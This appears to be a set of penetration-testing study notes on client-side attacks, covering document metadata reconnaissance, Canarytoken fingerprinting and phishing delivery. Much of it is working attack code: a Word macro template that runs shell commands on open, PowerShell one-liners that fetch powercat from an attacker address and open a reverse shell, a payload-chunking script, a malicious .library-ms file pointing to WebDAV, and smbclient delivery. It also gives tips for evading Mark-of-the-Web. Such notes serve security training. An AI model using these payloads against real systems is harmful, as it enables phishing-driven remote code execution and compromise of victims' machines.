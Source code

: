 
# Client-Side Attacks

## Traditional Attack Model
- Enumerate accessible machines and attempt to exploit exposed services.

---

## Target Reconnaissance

- Inspect metadata tags of publicly available documents associated with the target organization.
- Metadata includes author, creation date, name, and version of software or OS.
- Use `gobuster -x` to specify file extensions on a target's website (e.g., `.pdf`, `.txt`).

### Tools
- `exiftool`
  - `-a` to display duplicate tags.
  - `-u` to display unknown tags.

---

## Client Fingerprinting

- Goal: Obtain OS and browser info from a target in a non-routable internal network.

### Canarytokens
- Free web service to generate a tracking link with embedded token.
- When the target opens the link, it captures browser, IP, and OS info.
- You can choose token types and either enter an email or webhook URL for alerts.
- History view shows token accesses, including user agent strings.

### Notes
- Canarytokens can also be embedded in Word documents or PDFs.
- When the document is opened, the embedded image/token triggers.

---

## Exploiting Microsoft Office

### Preparation
- Email providers and spam filters often block raw `.doc` files.
- Use container formats like `.7z`, `.iso`, or `.img` to avoid MOTW (Mark-of-the-Web).
- FAT32 drives do not flag files with MOTW.

---

## Leveraging Microsoft Word Macros

### Notes
- `.doc` and `.docm` formats work.
- Choose "Current Document" in Macro dialog.

### Payload Template
```vb
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```

### PowerShell Payload Example
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://<myip>/powercat.ps1'); powercat -c <myip> -p 4444 -e powershell
```

If encoding is needed:
```python
n = 50
for i in range(0, len(str), n):
    print("Str = Str + " + '"' + str[i:i+n] + '"')
```

---

## Obtaining Code Execution via Windows Library Files

### Concept
- `.library-ms` files are containers that connect users with remote data (e.g., WebDAV).
- Two-stage attack:
  1. Victim opens `.library-ms` pointing to WebDAV.
  2. WebDAV serves `.lnk` file that executes PowerShell payload.

### WebDAV Server Setup
```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav
```

### Example Library File: `config.Library-ms`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>http://192.168.45.164</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

### PowerShell Command for `.lnk`
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.164:8000/powercat.ps1'); powercat -c 192.168.45.164 -p 4444 -e powershell"
```

### Delivery Options
- Send `config.Library-ms` by email or upload to SMB share:
```bash
smbclient //192.168.50.195/share -c 'put config.Library-ms'
```

- Remember: `.lnk` files get tagged with MOTW if opened in Explorer.

---

## Pro Tip

**Always check with `-x pdf,txt` in `gobuster`** even if port 80 returns 404.

